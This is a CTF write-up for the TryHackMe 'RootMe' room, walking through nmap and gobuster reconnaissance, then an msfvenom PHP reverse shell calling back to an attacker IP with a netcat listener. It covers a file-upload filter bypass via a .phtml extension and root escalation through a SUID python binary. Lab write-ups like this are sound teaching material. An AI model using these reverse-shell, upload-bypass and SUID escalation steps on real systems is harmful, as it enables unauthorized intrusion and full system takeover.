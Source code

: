 ```yaml
---
title: "RootMe"
date: 2022-12-20T11:34:45-08:00
draft: false
type: WriteUps
tags: ['tryhackme', 'CTF', 'Writeup']
---
```

# RootMe

{{< figure src="/rootme/rootme.png" width=240px height=240px attr="A ctf for beginners, can you root me?" >}}

___

Here's a [Link](https://tryhackme.com/room/rrootme) to the room.

First, I'm going to add the ip address of the machine to my /etc/hosts folder for ease of access.

``` bash
echo target-ip rootme >> /etc/hosts
```

Next, it's time for some reconnaissance.

___

### Reconnaissance

``` bash
nmap -sC -sV -T4 -oN nmap.txt rootme
```

``` bash
Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-20 21:29 GMT
Nmap scan report for rootme (10.10.24.110)
Host is up (0.050s latency).
Not shown: 932 closed ports, 66 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:C3:1F:E4:6F:A7 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
```

Thanks to the scan I can see that there are 2 ports open, *22* and *80*.

I've also found that the version of Apache running on the server is *2.4.29*.

And that the service running on port 22 is *ssh*.

``` bash
gobuster dir -u http://rootme -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
``` bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://rootme
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/12/20 21:41:14 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
===============================================================
2022/12/20 21:41:38 Finished
===============================================================
```

Using Gobuster as the next question suggests I find one hidden directory that I can access, */panel/*.

___

### Getting a Shell

After visiting the /panel/ directory I find an upload form.
Before attempting to upload my payload I'll check out the page's source to see if there's any more info to be gained.

``` html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="../css/panel.css">
    <script src=../"js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="first">
        <div class="main-div">
            <form action="" method="POST" enctype="multipart/form-data">
                <p>Select a file to upload:</p>
                <input type="file" name="fileUpload" class="fileUpload">
                <input type="submit" value="Upload" name="submit">
                
                            </form>
        </div>
    </div>
</body>
</html>
```

Nothing to be gained there.
Next, I'll create a php reverse shell payload using msfvenom.

``` bash
msfvenom -p php/reverse_php LHOST=10.10.77.103 LPORT=9001 -o shell.php
```

And start up a netcat listener on port 9001 

``` bash
nc -lvnp 9001
```

When I attempt to upload the shell however, I get an error message telling me php uploads aren't allowed.

``` bash
PHP não é permitido!
```

The error is very explicit, which leads me to believe that php files are the only ones filtered.
To test this theory, I'll rename the payload to "shell.phtml," and try again.

``` bash
O arquivo foi upado com sucesso!
```

Success!

Now I'll move over to the /uploads/ directory and click on the payload to start the reverse shell.  

Once the reverse shell has connected to my listener, I'll stabilize the shell with this command  

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

And then find the user flag with

``` bash
find / -type f -name user.txt 2> /dev/null
/var/www/user.txt

cat /var/www/user.txt
THM{***************}
```
Success! One flag down, one more to go.

___

### Privilege Escalation

Now that the shell is stabilized and I've found the user flag next up is escalating to root privileges.  

The first question asks about SUID bits, so I'll run a search for files with SUID permissions.

``` bash
find / -type f -perm -04000 2>/dev/null
```

``` bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
...
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

*/usr/bin/python* is the odd file out, and a quick search on GTFObins provides me with an easy vector for privilige escalation:

``` bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```
Now that I have root priviliges, I can search for and print the root flag:

``` bash
find / -type f -name root.txt 2>/dev/null
/root/root.txt

cat /root/root.txt
THM{*******************}
```

___

## Success!

And that'll do it, I've captured both RootMe flags!
